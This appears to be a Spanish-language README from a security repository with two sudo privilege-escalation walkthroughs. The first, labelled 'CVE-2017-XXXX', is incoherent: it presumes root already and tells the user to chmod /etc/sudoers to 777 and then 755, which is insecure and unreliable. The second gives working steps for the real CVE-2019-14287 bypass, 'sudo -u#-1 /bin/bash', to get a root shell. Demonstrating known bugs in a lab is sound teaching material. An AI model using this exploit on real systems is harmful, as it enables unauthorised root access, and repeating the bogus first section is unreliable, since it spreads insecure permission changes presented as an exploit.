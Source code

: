 # sudo

# CVE-2017-XXXX hackingyseguridad

#1.- Para editar el fichero sudiers sin problemas 

$chmod 777 /etc/sudoers    

#2.- Añadidmos en la linea sudo de /etc/group a antonio

sudo vim /etc/group

sudo:x : 27:antonio

forzamos la escritura en group al salir con :wq!

#3.- Restablecemos los privilegios del fichero sudoers con 

$chmod 755 /etc/sudoers

#4.- Explotamos 

$sudo antonio

$sudo su

#whoami

#5.- ya somos root!


# CVE-2019-14287 VULNERABILIDAD SUDO VERSIONES < 1.8.28 

#0.- Comprovamos la version de sudo instalada con: 

$sudo -V

#1.- Editamos el fichero /etc/sudoers con $sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

%admin ALL=(ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#3.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#4.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#5.- Modificamos la linea

antonio ALL=(ALL, !root) ALL

#6.- Explotamos la vulnerabilidad con sudo -u#-1

$sudo -u#-1 /bin/bash

#whoami

#7.- ya somos root!
